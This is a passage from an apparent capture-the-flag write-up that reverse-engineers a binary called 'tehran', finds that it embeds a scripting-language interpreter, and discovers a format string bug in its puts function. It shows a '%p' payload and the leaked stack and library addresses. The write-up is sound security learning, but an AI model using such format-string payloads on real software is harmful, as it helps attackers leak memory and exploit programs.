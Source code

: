 
We can see that the three blocks shown here are basically the same, except for
one little detail: the operation that combines `eax` and `edx`. That's when it
hit me: this is some kind of interpreter. On the right we can see the 1 byte
opcodes and on the left are the opcode handler blocks. 

Maybe this thing is some kind of interpreter for a scripting language. This
would explain the weird code that is called in between. This is probably some
kind of recursive parser. Generated parser code tends to be pretty unreadable.

Then I checked for strings in the binary, which confirmed my suspicion:

```
vaddr=0x0804bb80 paddr=0x00003b80 ordinal=041 sz=27 len=26 section=.rodata type=ascii string=Can't escape your sandbox.
vaddr=0x0804bb9b paddr=0x00003b9b ordinal=042 sz=9 len=8 section=.rodata type=ascii string=exit(%d)

vaddr=0x0804bbbc paddr=0x00003bbc ordinal=046 sz=117 len=116 section=.rodata type=ascii string=char ex_case typedefs if number ret sz while print println printout puts heap_create fillout compare exit void begin
vaddr=0x0804bc31 paddr=0x00003c31 ordinal=047 sz=22 len=21 section=.rodata type=ascii string=Where's your begin()?
```

The one string looks like a list of keywords and the other one is printed in
the main function, right before the call to opcode interpreter. So I tried
several inputs that kind of look like scripting languages, and after some time
I managed to get some valid inputs.

```
begin(){
print("hello");
exit(42);

}

EOF
```

But this didn't print the expected string, but the string `"Iran"`. I tried all
the variations of `print` functions that are present in the keyword string.
Most of them are pretty useless except for `puts`, which is mapped directly to
a call to `printf`.

Now that's interesting. We have a format string vulnerability here

```
$ ./tehran
begin() {
    puts("ABAB.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.");

}


EOF
ABAB.(nil).(nil).(nil).(nil).(nil).0xff9b9748.0x804afd0.0xf76ef000.0x40000.0xf74b6ff0.0x21.0xff9b97a0.0xf76ef000.0xff9b9758.0xff9b97a0.0x8b19008.0xf76ef000.0xff9b9788.0x804bade.0x1.0xff9b9834.0xf74b7000.0x26.0x1.0xff9b9834.0xff9b983c.0xff9b97a0.(nil).0x1.(nil).0xf7552196.0x1.0xf76ef000.(nil).0xf7552196.0x1.0xff9b9834.0xff9b983c.(nil).(nil).(nil).0xf76ef000.0xf7732be4.0xf7731fcc.(nil).0x1.0xf76ef000.(nil).0xcfde1ff0.0x52b3f3e1.(nil).(nil).(nil).0x1.0x8048620.(nil).0xf7723e40.0xf75520a9.0xf7731fcc.0x1.0x8048620.(nil).0x8048641.0x804b786.0x1.0xff9b9834.0x804baf0.exit(566)
```
